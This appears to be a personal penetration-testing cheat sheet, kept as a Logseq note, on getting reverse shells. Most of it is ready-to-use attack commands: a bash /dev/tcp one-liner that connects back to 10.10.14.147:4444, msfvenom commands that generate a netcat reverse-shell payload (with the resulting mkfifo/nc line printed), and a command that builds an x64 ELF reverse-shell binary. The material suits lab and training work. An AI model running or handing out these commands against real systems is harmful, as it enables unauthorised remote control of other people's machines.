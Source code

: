 ### One-liner reverse shell
For more reverse shell examples [check this out](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
	- #### Just `bash`
	  logseq.order-list-type:: number
	  ```bash
	  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
	  ```
	- #### Generate one-liner reverse shells with `msfvenom`
	  logseq.order-list-type:: number
		- List payloads
		  logseq.order-list-type:: number
		  ```bash
		  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
		  ```
		- Use `netcat` regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
		  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
		  [-] No arch selected, selecting arch: cmd from the payload
		  No encoder specified, outputting raw payload
		  Payload size: 90 bytes
		  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
		  ```
	- #### Create ELF x64 reverse shell
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
	  chmod +x rv
	  ```
	  `nc` needs to be available and reaceable from `$PATH`.
- #### Upgrade from a simple shell to a fully interactive tty
  Additional info can be [found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).